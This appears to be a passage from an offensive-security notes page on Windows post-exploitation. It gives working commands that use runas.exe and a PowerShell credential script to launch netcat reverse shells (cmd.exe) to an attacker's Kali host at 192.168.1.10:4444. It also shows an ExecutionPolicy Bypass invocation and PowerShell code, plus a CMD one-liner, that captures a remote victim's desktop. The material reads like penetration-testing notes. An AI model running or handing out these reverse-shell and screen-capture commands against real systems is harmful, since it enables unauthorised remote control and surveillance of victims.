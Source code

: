 Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

```cmd
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
```

PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

```powershell
 $username = '<username here>'
 $password = '<password here>'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

Next run this script using powershell.exe:

```cmd
CMD C:\> powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

# Other files

Here are few other handy scripts and things...

## Capture a screen shot

The following powershell commands can be used to capture a screen shot of the remote computers desktop and store it as a BMP file.

```powershell
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
$bitmap = New-Object System.Drawing.Bitmap $Screen.Width, $Screen.Height
$graphic = [System.Drawing.Graphics]::FromImage($bitmap)
$graphic.CopyFromScreen($Screen.Left, $Screen.Top, 0, 0, $bitmap.Size)
$bitmap.Save('screen1.bmp')
```

If you are on CMD you can use this handy one-liner to execute the same powershell command

```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "Add-Type -AssemblyName System.Windows.Forms; Add-type -AssemblyName System.Drawing; $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen; $bitmap = New-Object System.Drawing.Bitmap $Screen.Width, $Screen.Height; $graphic = [System.Drawing.Graphics]::FromImage($bitmap); $graphic.CopyFromScreen($Screen.Left, $Screen.Top, 0, 0, $bitmap.Size); $bitmap.Save('screen1.bmp')"
```
